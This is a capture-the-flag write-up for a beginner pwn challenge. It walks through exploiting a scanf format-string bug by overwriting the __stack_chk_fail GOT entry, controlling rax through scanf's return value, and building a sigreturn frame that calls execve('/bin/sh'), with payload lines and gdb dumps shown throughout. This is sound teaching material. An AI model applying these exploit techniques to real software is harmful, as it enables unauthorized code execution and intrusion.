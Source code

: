 # Beginner's Pwn (42 solves)

Author: moratorium08
Estimated difficulty: Beginner



##

A disassembler (decompiler) like Ghidra/IDA shows that the program is not very large, it reads a string into the buffer buf on the stack using a function called readn that reads bytes at most n bytes, and then scanf (buf), which is apparently dangerous.

The program looks like this:

```
void readn(char *buf, int size) {
    unsigned cnt = 0;
    for (unsigned i = 0; i < size; i++) {
        unsigned long long x = 1;
         asm(
        "movq $1, %%rdx\n"
        "movq %1, %%rsi\n"
        "movq $0, %%rdi\n"
        "movq $0, %%rax\n"
        "syscall\n"
        "movq %%rax, %0\n"
        : "=r"(x)
        : "r"(buf+i)
        : "memory");
        cnt += x;
        if (x != 1 || buf[cnt - 1] == '\n') break;
    }
    if (cnt == 0) exit(-1);
    if (buf[cnt - 1] == '\n') buf[cnt - 1] = '\x00';

}
int main(void) {
    char buf[SIZE];
    readn(buf, SIZE);
    scanf(buf);
    return 0;
}
```

If `buf` is an appropriate format string and place an appropriate pointer on the stack,
you may notice that arbitrary writes and stack overflows are likely to occur.


The result of `checksec` is as follows.
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

In this problem, PIE is disabled,
and the area of code and data of the program is statically determined,
and it is partial RELRO, which means GOT overwrite is possible.

There may be many ways to solve this problem,
 but basically you should take the following steps.

- Buffer overflow and GOT overwrite using scanf FSB
- Set rax = 0x3b, rdi = "/ bin/sh \x00", rsi = rdx = 0, and syscall


## Detail of PoC

When analyzing with gdb, readn will modify rsi, so the rsi, the second argument of scanf, points to a pointer on stack.


```
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x401260 (<__libc_csu_init>:	endbr64)
RCX: 0x401191 (<readn+75>:	mov    rax,rax)
RDX: 0x7
RSI: 0x7fffffffe2e7 --> 0x40106000
RDI: 0x7fffffffe2e0 --> 0x73243725207325 ('%s %7$s')
RBP: 0x7fffffffe300 --> 0x0
RSP: 0x7fffffffe2e0 --> 0x73243725207325 ('%s %7$s')
RIP: 0x401237 (<main+52>:	call   0x401040 <__isoc99_scanf@plt>)
R8 : 0x0
R9 : 0x7ffff7fe0d50 (endbr64)
R10: 0x0
R11: 0x206
R12: 0x401060 (<_start>:	endbr64)
R13: 0x7fffffffe3f0 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40122b <main+40>:	lea    rax,[rbp-0x20]
   0x40122f <main+44>:	mov    rdi,rax
   0x401232 <main+47>:	mov    eax,0x0
=> 0x401237 <main+52>:	call   0x401040 <__isoc99_scanf@plt>
   0x40123c <main+57>:	mov    eax,0x0
   0x401241 <main+62>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x401245 <main+66>:	xor    rdx,QWORD PTR fs:0x28
   0x40124e <main+75>:	je     0x401255 <main+82>
Guessed arguments:
arg[0]: 0x7fffffffe2e0 --> 0x73243725207325 ('%s %7$s')
[------------------------------------------------------------------------------]
```

In particular, since this address points to the last place written in buf, an appropriate write to this address causes a stack buffer overflow, and the return address can be overwritten.

The problem is that Canary is also overwritten. If we recall the buffer `buf` on the stack to be written in readn, we can treat it as an argument to scanf if we place a pointer appropriately.
In this case, consider a pointer to the GOT of `stack_check_fail`, and replace this address with just a pointer to `ret`


After all, by the following way, the top of the stack is filled with 0xdeadbeef,
which leads to getting PC.

```
sendline('%s %7$s\x00' + p64(got_stack_check_fail)) # -> for readn
sendline(p64(0xdeadbeef) * 100 + '\n' + p64(ret_addr)) # -> for scanf
```


```
[-------------------------------------code-------------------------------------]
   0x40124e <main+75>:	je     0x401255 <main+82>
   0x401250 <main+77>:	call   0x401030 <__stack_chk_fail@plt>
   0x401255 <main+82>:	leave
=> 0x401256 <main+83>:	ret
   0x401257:	nop    WORD PTR [rax+rax*1+0x0]
   0x401260 <__libc_csu_init>:	endbr64
   0x401264 <__libc_csu_init+4>:	push   r15
   0x401266 <__libc_csu_init+6>:	lea    r15,[rip+0x2ba3]        # 0x403e10
[------------------------------------stack-------------------------------------]
0000| 0x7ffd21b3b258 --> 0xdeadbeef
0008| 0x7ffd21b3b260 --> 0xdeadbeef
0016| 0x7ffd21b3b268 --> 0xdeadbeef
0024| 0x7ffd21b3b270 --> 0xdeadbeef
0032| 0x7ffd21b3b278 --> 0xdeadbeef
0040| 0x7ffd21b3b280 --> 0xdeadbeef
0048| 0x7ffd21b3b288 --> 0xdeadbeef
0056| 0x7ffd21b3b290 --> 0xdeadbeef
[------------------------------------------------------------------------------]
```


Now consider how to execute execve syscall.

In this writeup, we consider the following steps:

- Manipulate rax by using the return value of scanf. Note that scanf returns "How many data were imported"
- By setting registers as desired, we do sigreturn system call.


For scanf("%d %d %d"), if we input "4 5 6", then scanf returns 3.
This allows us to manipulate the value of rax.
By using this technique, we set rax as 15, which is the syscall number of sigreturn.


```
sendline("%1$dA" * 15)
```


Finally, we build a stack for sigreturn as follows.
```
125 frame = [
126         'AAAAAAAA' * 5, # uc_flags - ss_size
127         'AAAAAAAA' * 8, # r8-r15
128         p64(binsh),     # rdi
129         p64(0),         # rsi
130         p64(0) * 2,     # rbp, rbx
131         p64(0),         # rdx
132         p64(59),        # rax
133         p64(0) * 2,     # rcx, rsp
134         p64(syscall),   # rip
135         p64(0),         # eflags
136         p64(0x33),      # csgsfs
137         'AAAAAAAA' * 4,
138         p64(0)          # &fpstate
139         ]
```


Here, we assumed that "/bin/sh\x00" is placed at the BSS area.
We achieve this when we overwrite the GOT address of `stack_check_fail`

To sum up the above, we can get the shell: [solver/solve.py] (solver/solve.py).


